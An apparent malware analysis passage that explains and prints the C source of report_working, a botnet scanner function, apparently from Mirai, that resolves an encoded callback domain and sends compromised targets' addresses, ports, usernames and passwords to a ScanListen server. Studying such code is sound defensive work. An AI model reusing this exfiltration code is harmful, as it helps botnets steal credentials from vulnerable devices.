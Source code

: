 The function `report_working` (reported in the following code snippet), is the one responsible for the communication with the **ScanListen** server. Its domain and port are resolved from the encoded parameters saved in the bot, then information is sent to the ScanListen: in particular, information sent include the *address* and *port* of the target, the *username* and the *password* in order to connect.

```c
static void report_working(ipv4_t daddr, uint16_t dport, struct scanner_auth *auth)
{
    struct sockaddr_in addr;
    int pid = fork(), fd;
    struct resolv_entries *entries = NULL;

    if (pid > 0 || pid == -1)
        return;

    if ((fd = socket(AF_INET, SOCK_STREAM, 0)) == -1)
    {
#ifdef DEBUG
        printf("[report] Failed to call socket()\n");
#endif
        exit(0);
    }

    table_unlock_val(TABLE_SCAN_CB_DOMAIN);
    table_unlock_val(TABLE_SCAN_CB_PORT);

    entries = resolv_lookup(table_retrieve_val(TABLE_SCAN_CB_DOMAIN, NULL));
    if (entries == NULL)
    {
#ifdef DEBUG
        printf("[report] Failed to resolve report address\n");
#endif
        return;
    }
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = entries->addrs[rand_next() % entries->addrs_len];
    addr.sin_port = *((port_t *)table_retrieve_val(TABLE_SCAN_CB_PORT, NULL));
    resolv_entries_free(entries);

    table_lock_val(TABLE_SCAN_CB_DOMAIN);
    table_lock_val(TABLE_SCAN_CB_PORT);

    if (connect(fd, (struct sockaddr *)&addr, sizeof (struct sockaddr_in)) == -1)
    {
#ifdef DEBUG
        printf("[report] Failed to connect to scanner callback!\n");
#endif
        close(fd);
        exit(0);
    }

    uint8_t zero = 0;
    send(fd, &zero, sizeof (uint8_t), MSG_NOSIGNAL);
    send(fd, &daddr, sizeof (ipv4_t), MSG_NOSIGNAL);
    send(fd, &dport, sizeof (uint16_t), MSG_NOSIGNAL);
    send(fd, &(auth->username_len), sizeof (uint8_t), MSG_NOSIGNAL);
    send(fd, auth->username, auth->username_len, MSG_NOSIGNAL);
    send(fd, &(auth->password_len), sizeof (uint8_t), MSG_NOSIGNAL);
    send(fd, auth->password, auth->password_len, MSG_NOSIGNAL);

#ifdef DEBUG
    printf("[report] Send scan result to loader\n");
#endif
```